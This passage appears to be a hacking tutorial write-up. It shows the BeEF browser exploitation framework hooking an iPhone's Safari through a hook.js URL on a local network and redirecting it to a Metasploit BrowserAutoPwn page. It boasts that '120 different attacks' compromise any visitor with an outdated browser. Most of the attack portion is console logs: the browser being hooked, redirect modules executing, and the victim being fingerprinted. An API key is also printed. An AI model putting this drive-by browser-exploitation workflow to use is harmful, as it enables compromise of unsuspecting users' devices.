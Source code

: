 ## As you can see this bad boy is ready armed with 120 different attacks and if you've missed an update on your browser then just visiting this page you would become a victim.

### UPDATE ALL THE TIME!!!

**Our beef hit**

## As you can see below the beef javascript attack allowed me to redirect my iPhone's browser to the "BrowserAutoPwn URL" listed at the bottom of the running metasploit modules:

``` beef:
[20:07:59][*] 300 modules enabled.
[20:07:59][*] 2 network interfaces were detected.
[20:07:59][*] running on network interface: 127.0.0.1
[20:07:59]    |   Hook URL: http://127.0.0.1:3000/hook.js
[20:07:59]    |_  UI URL:   http://127.0.0.1:3000/ui/panel
[20:07:59][*] running on network interface: 192.168.1.80
[20:07:59]    |   Hook URL: http://192.168.1.80:3000/hook.js
[20:07:59]    |_  UI URL:   http://192.168.1.80:3000/ui/panel
[20:07:59][*] RESTful API key: ba2cadf4152079ccbb4a3f4316c8a398874fb15b
[20:07:59][!] [GeoIP] Could not find MaxMind GeoIP database: '/var/lib/GeoIP/GeoLite2-City.mmdb'
[20:07:59]    |_  Run geoipupdate to install
[20:07:59][*] HTTP Proxy: http://127.0.0.1:6789
[20:07:59][*] BeEF server started (press control+c to stop)
[20:08:22][>] Event: User with ip 192.168.1.80 has successfully authenticated in the application.
[20:12:12][>] [INIT] Processing Browser Details...
[20:12:12][>] Event: 192.168.1.78 just joined the horde from the domain: 192.168.1.80:3000
[20:12:13][!] [Browser Details] Invalid browser plugins returned from the hook browser's initial connection.
[20:12:13][>] [INIT] Processing Browser Details...
[20:12:13][*] New Hooked Browser [id:1, ip:192.168.1.78, browser:S-6, os:iOS-], hooked domain [192.168.1.80:3000]
[20:12:13][>] Hooked browser has network interface 127.0.0.1
[20:12:13][>] Event: 192.168.1.78 appears to have come back online
[20:12:48][>] Server: mounted handler '/command/site_redirect.js'
[20:12:48][>] Hard Load module: 'site_redirect'
[20:13:03][>] Event: Hooked browser [id:1, ip:192.168.1.78] has executed instructions (status: UNKNOWN) from command module [cid:1, mod: 43, name:'Redirect Browser']
[20:13:03][*] Hooked browser [id:1, ip:192.168.1.78] has executed instructions (status: UNKNOWN) from command module [cid:1, mod: 43, name:'Redirect Browser']
[20:13:29][>] Event: Hooked browser [id:1, ip:192.168.1.78] has executed instructions (status: UNKNOWN) from command module [cid:2, mod: 43, name:'Redirect Browser']
[20:13:29][*] Hooked browser [id:1, ip:192.168.1.78] has executed instructions (status: UNKNOWN) from command module [cid:2, mod: 43, name:'Redirect Browser']
```

#### After math:
**The exploits will take long to run depending on your setting of the "MaxExploitCount" so if you want to be quicker its best to had pick the ones to use and not use so many.
```
[*] Server started.
[*] No cookie received for 192.168.1.78, resorting to headers hash.
[*] Gathering target information for 192.168.1.78
[*] Sending HTML response to 192.168.1.78
[*] Info receiver page called from 192.168.1.78
[*] Received cookie 'VitbVdMt' from 192.168.1.78
[*] Received sniffed browser data over POST from 192.168.1.78
{"os_vendor"=>["undefined"], "os_device"=>["iPhone"], "ua_name"=>["Safari"], "ua_ver"=>["12.0"], "arch"=>["armle"], "java"=>["null"], "silverlight"=>["false"], "flash"=>["null"], "vuln_test"=>["true"], "os_name"=>["iOS"]}.
[-] Target 192.168.1.78 has requested an unknown path: /favicon.ico
```